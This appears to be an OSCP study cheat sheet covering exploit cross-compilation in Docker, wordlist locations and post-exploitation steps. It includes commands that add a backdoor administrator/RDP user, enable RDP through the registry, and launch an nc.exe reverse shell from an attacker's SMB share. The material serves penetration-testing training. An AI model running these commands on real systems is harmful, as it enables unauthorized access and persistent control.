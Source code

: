 ```bash
sudo chmod +x program.cs
mcs -out:program.exe program.cs
```

## Cross-Compiling with Docker
During the labs, I ran into the problem of several older Linux machines without compilers installed. Exploits compiled in Kali simply didn't work for various reasons.
* [Offsec forums discussion](https://forums.offensive-security.com/showthread.php?48259-Fix-for-incompatibility-with-older-versions-of-gcc-Kali-2022-3)
### Debian 10
Using a debian 10 docker image. This worked for me for most linux lab machines.
**Setup** (One time only - as **root**):
```bash
docker pull debian:10
mkdir ~/docker_shared
docker run --name debian10 -v ~/docker_shared:/media -it debian:10 /bin/bash
```
Inside the container run:
```bash
apt update && apt install gcc-multilib build-essential
```
**Usage after setup**
Entering the container:
```bash
docker start debian10
docker exec -it debian10 /bin/bash
```
Inside the docker, complie your files within /media and they will be accessable outside the docker in /root/docker_shared

## Wordlists
The most commonly used wordlists for OSCP and their locations within Kali.
* Passwords: /usr/share/wordlists/rockyou.txt
* Service Brute Force (short list): /usr/share/wfuzz/wordlist/others/common_pass.txt 
* Directory fuzzing: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

## Adding RDP Users
Quickly create new users and add them as administrator & RDP users. This is useful if you have administative command execution.
```bash
net user pwned Password123! /add
net localgroup administrators pwned /add
net localgroup "Remote Desktop Users" pwned /add
```
Enabling RDP in Windows if it is disabled (Requires Admin):
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

## Executing Remote Scripts
Methods for executing scripts remotely on target machines using SMB.
From Kali folder hosting files
```bash
impacket-smbserver share ./
```
From Victim (execute the nc file in the share on the local server)
```bash
\\10.10.14.45\share\nc.exe -e cmd.exe 10.10.14.45 8080
```
